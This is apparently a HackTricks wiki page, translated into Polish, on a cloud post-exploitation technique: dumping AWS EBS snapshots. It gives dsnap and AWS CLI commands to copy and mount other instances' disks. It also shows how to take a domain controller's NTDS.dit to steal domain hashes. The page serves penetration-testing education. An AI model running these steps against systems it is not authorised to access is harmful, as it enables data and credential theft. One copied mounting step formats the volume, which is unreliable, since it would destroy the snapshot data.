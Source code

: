 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## Sprawdzanie migawki lokalnie
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Uwaga** że `dsnap` nie pozwoli ci na pobranie publicznych migawków. Aby to obejść, możesz skopiować migawkę do swojego osobistego konta i pobrać ją:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Aby uzyskać więcej informacji na temat tej techniki, sprawdź oryginalne badania w [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Możesz to zrobić za pomocą Pacu, używając modułu [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Sprawdzanie migawki w AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Zamontuj go w VM EC2 pod swoją kontrolą** (musi być w tym samym regionie co kopia zapasowa):

Krok 1: Należy utworzyć nową woluminę o preferowanym rozmiarze i typie, przechodząc do EC2 –> Woluminy.

Aby móc wykonać tę akcję, wykonaj następujące polecenia:

* Utwórz wolumin EBS do podłączenia do instancji EC2.
* Upewnij się, że wolumin EBS i instancja są w tej samej strefie.

Krok 2: Należy wybrać opcję "podłącz wolumin" klikając prawym przyciskiem myszy na utworzonej woluminie.

Krok 3: Należy wybrać instancję z pola tekstowego instancji.

Aby móc wykonać tę akcję, użyj następującego polecenia:

* Podłącz wolumin EBS.

Krok 4: Zaloguj się do instancji EC2 i wyświetl dostępne dyski, używając polecenia `lsblk`.

Krok 5: Sprawdź, czy wolumin ma jakieś dane, używając polecenia `sudo file -s /dev/xvdf`.

Jeśli wynik powyższego polecenia pokazuje "/dev/xvdf: data", oznacza to, że wolumin jest pusty.

Krok 6: Sformatuj wolumin do systemu plików ext4, używając polecenia `sudo mkfs -t ext4 /dev/xvdf`. Alternatywnie możesz również użyć formatu xfs, używając polecenia `sudo mkfs -t xfs /dev/xvdf`. Należy pamiętać, że powinieneś użyć albo ext4, albo xfs.

Krok 7: Utwórz katalog według własnego wyboru, aby zamontować nowy wolumin ext4. Na przykład możesz użyć nazwy "newvolume".

Aby móc wykonać tę akcję, użyj polecenia `sudo mkdir /newvolume`.

Krok 8: Zamontuj wolumin w katalogu "newvolume", używając polecenia `sudo mount /dev/xvdf /newvolume/`.

Krok 9: Zmień katalog na katalog "newvolume" i sprawdź przestrzeń dyskową, aby zweryfikować montaż woluminu.

Aby móc wykonać tę akcję, użyj następujących poleceń:

* Zmień katalog na `/newvolume`.
* Sprawdź przestrzeń dyskową, używając polecenia `df -h .`. Wynik tego polecenia powinien pokazać wolną przestrzeń w katalogu "newvolume".

Możesz to zrobić z Pacu, używając modułu `ebs__explore_snapshots`.

## Sprawdzanie migawki w AWS (używając cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Każdy użytkownik AWS posiadający uprawnienie **`EC2:CreateSnapshot`** może ukraść hashe wszystkich użytkowników domeny, tworząc **snapshot Kontrolera Domeny**, montując go do instancji, którą kontroluje, i **eksportując plik NTDS.dit oraz SYSTEM** rejestru do użycia z projektem secretsdump Impacket.

Możesz użyć tego narzędzia do zautomatyzowania ataku: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) lub możesz użyć jednej z wcześniejszych technik po utworzeniu snapshotu.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

